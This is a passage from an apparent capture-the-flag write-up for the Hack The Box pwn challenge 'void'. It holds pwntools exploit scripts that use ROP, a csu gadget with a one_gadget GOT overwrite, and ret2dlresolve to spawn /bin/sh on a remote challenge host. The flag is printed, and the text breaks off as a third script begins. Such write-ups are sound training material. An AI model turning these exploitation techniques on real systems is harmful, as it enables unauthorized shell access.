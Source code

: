 csu = 0x004011b2
off_to_og = 0xc961a - libc.sym['read'] #one_gadget - read
add = 0x0000000000401108 #add

payload = b'a'*64 + b'b'*8
payload += p64(csu)
payload += p64(off_to_og, sign=True) #pop rbx
payload += p64(exe.got['read']+0x3d) #pop rbp (plus 0x3d because gadget add)
payload += p64(0)*4 #pop r12 r13 r14 r15
payload += p64(add) #gadget add
payload += p64(exe.sym['read'])
p.send(payload)

p.interactive()
#HTB{r3s0lv3_th3_d4rkn355}
```


script 2 : 


```
from pwn import *

context.binary = exe = ELF('./void',checksec=False)

#p = process(exe.path)
p = remote('83.136.254.158',46348)

dlresolve = Ret2dlresolvePayload(exe, symbol='system', args=['/bin/sh\0'])
rop = ROP(exe)
rop.read(0, dlresolve.data_addr)
rop.raw(rop.ret[0])
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

pl = b'a'*72 + raw_rop

p.send(pl)

#sleep(1)
input()

p.send(dlresolve.payload)

p.interactive()
#HTB{r3s0lv3_th3_d4rkn355}
```


script 3 : 

```
#!/usr/bin/python3

from pwn import *
